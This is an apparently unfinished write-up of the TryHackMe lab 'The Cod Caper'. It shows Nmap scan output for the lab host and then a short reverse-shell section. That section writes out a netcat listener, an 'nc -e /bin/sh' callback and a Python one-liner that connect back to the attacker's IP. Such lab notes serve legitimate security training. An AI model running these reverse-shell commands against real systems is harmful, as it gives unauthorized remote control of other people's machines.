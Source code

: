 # The Cod Caper

[The Cod Caper Tryhackme](https://tryhackme.com/room/thecodcaper)

## Initial scan

```
# Nmap 7.80 scan initiated Wed Jan 26 13:45:36 2022 as: nmap -vvv -p 22,80 -A -vv -sV -sC -oN nmap.txt 10.10.209.121
Nmap scan report for 10.10.209.121
Host is up, received syn-ack (0.23s latency).
Scanned at 2022-01-26 13:45:37 +06 for 13s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDs2k31WKwi9eUwlvpMuWNMzFjChpDu4IcM3k6VLyq3IEnYuZl2lL/dMWVGCKPfnJ1yv2IZVk1KXha7nSIR4yxExRDx7Ybi7ryLUP/XTrLtBwdtJZB7k48EuS8okvYLk4ppG1MRvrVojNPprF4nh5S0EEOowqGoiHUnGWOzYSgvaLAgvr7ivZxSsFCLqvdmieErVrczCBOqDOcPH9ZD/q6WalyHMccZWVL3Gk5NmHPaYDd9ozVHCMHLq7brYxKrUcoOtDhX7btNamf+PxdH5I9opt6aLCjTTLsBPO2v5qZYPm1Rod64nysurgnEKe+e4ZNbsCvTc1AaYKVC+oguSNmT
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAmpmAEGyFxyUqlKmlCnCeQW4KXOpnSG6SwmjD5tGSoYaz5Fh1SFMNP0/KNZUStQK9KJmz1vLeKI03nLjIR1sho=
|   256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFBIRpiANvrp1KboZ6vAeOeYL68yOjT0wbxgiavv10kC
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 26 13:45:50 2022 -- 1 IP address (1 host up) scanned in 14.10 seconds
```

## Reverse shell

- ip: 10.8.215.27
- `nc -lnvp 1234`
- `nc -e /bin/sh 10.8.215.27 1234`
- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.215.27",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

## SSH
